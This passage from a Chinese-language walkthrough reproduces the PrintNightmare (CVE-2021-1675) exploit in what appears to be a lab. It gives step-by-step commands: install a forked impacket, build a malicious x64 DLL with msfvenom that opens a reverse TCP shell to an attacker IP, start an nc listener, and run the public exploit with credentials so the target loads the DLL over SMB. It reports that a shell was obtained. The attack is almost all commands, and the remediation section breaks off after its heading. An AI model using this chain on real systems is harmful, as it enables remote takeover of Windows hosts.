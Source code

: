     
    
    git clone https://github.com/cube0x0/impacketcd impacketpython3 ./setup.py install

###  

### 2、Kali生成恶意dll文件  

  * 

    
    
    msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.3.55 LPORT=4444 -f dll -o /usr/share2/shell.dll

  

### 3、msf或者nc开启监听

  *   * 

    
    
    msf 和 nc开启监听都可以 nc -lnvp 4444

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805105254.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805105256.png)

  

### 4、执行exp  

  *   * 

    
    
    exp地址：https://github.com/cube0x0/CVE-2021-1675python3 CVE-2021-1675.py test.com/win10:"windows10>?"@192.168.3.3 '\\192.168.3.55\smb\shell.dll'

  
虽然报错了 但是已经收到了shell

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805105258.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805105300.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805105301.png)  
  
 **0x06 修复建议  
  
**  
  
  

1.官方建议：
